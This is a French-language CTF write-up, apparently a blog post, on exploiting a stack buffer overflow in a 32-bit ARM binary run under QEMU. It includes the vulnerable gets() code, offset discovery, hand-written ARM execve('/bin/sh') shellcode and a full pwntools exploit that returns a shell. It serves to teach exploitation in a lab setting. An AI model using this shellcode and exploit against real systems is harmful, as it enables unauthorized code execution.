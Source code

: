 ```yaml
---
title: "Exemple: Buffer Overflow sur architecture ARM"
date: 2025-08-10
draft: false
---
```


## Introduction

Ce writeup présente l'exploitation d'un buffer overflow sur une architecture ARM32 lors d'un CTF. Le challenge impliquait un binaire vulnérable avec NX désactivé.

## Analyse du binaire

### Informations de base

```bash
$ file vuln_arm
vuln_arm: ELF 32-bit LSB executable, ARM, version 1 (SYSV), dynamically linked

$ checksec vuln_arm
[*] '/home/user/vuln_arm'
    Arch:     arm-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE
```

### Désassemblage

Le binaire contient une fonction vulnérable :

```c
void vulnerable() {
    char buffer[64];
    gets(buffer);  // Vulnérable !
    printf("You entered: %s\n", buffer);
}
```

## Exploitation

### Calcul de l'offset

J'ai utilisé un pattern cyclique pour trouver l'offset :

```python
from pwn import *

context.arch = 'arm'
pattern = cyclic(200)

p = process(['qemu-arm', '-L', '/usr/arm-linux-gnueabi/', './vuln_arm'])
p.sendline(pattern)
p.wait()

# Offset trouvé : 76 bytes
```

### Création du shellcode ARM

Shellcode pour exécuter `/bin/sh` :

```python
shellcode = asm("""
    /* execve("/bin/sh", NULL, NULL) */
    mov r0, pc
    add r0, r0, #16
    sub r2, r2, r2
    sub r1, r1, r1
    mov r7, #11
    svc #0
    .string "/bin/sh"
""")
```

### Exploit final

```python
#!/usr/bin/env python3
from pwn import *

context.arch = 'arm'
context.endian = 'little'

# Shellcode
shellcode = asm("""
    mov r0, pc
    add r0, r0, #16
    sub r2, r2, r2
    sub r1, r1, r1
    mov r7, #11
    svc #0
    .string "/bin/sh"
""")

# Adresse du buffer sur la stack
buffer_addr = 0xbefff678

# Construction du payload
offset = 76
payload = shellcode.ljust(offset, b'\x90')
payload += p32(buffer_addr)

# Exploitation
p = process(['qemu-arm', '-L', '/usr/arm-linux-gnueabi/', './vuln_arm'])
p.sendline(payload)
p.interactive()
```

## Challenges rencontrés

### 1. Émulation ARM

Pour tester localement, j'ai utilisé QEMU :

```bash
sudo apt install qemu-user qemu-user-static gcc-arm-linux-gnueabi
qemu-arm -L /usr/arm-linux-gnueabi/ ./vuln_arm
```

### 2. Alignement mémoire

ARM nécessite un alignement strict des adresses. J'ai dû m'assurer que mes adresses étaient alignées sur 4 bytes.

### 3. Mode Thumb vs ARM

Le processeur peut être en mode ARM (32-bit) ou Thumb (16-bit). J'ai utilisé le mode ARM classique pour simplifier.

## Résultat

```bash
$ python3 exploit.py
[+] Starting local process: Done
[*] Switching to interactive mode
$ id
uid=1000(user) gid=1000(user) groups=1000(user)
$ cat flag.txt
FLAG{arm_buff3r_0v3rfl0w_m4st3r}
```

## Apprentissages

Cette exploitation m'a permis de comprendre :

1. Les spécificités de l'architecture ARM
2. L'importance de l'alignement mémoire
3. Les différences avec les exploits x86
4. L'utilisation de QEMU pour l'émulation
5. L'écriture de shellcode ARM

## Références

- [ARM Assembly Basics](https://azeria-labs.com/writing-arm-assembly-part-1/)
- [ARM Exploitation](https://www.exploit-db.com/docs/english/43906-arm-exploitation.pdf)
- [Azeria Labs ARM Tutorials](https://azeria-labs.com/)

## Conclusion

L'exploitation sur ARM est différente de x86 mais suit les mêmes principes fondamentaux. La compréhension de l'architecture est cruciale pour réussir.
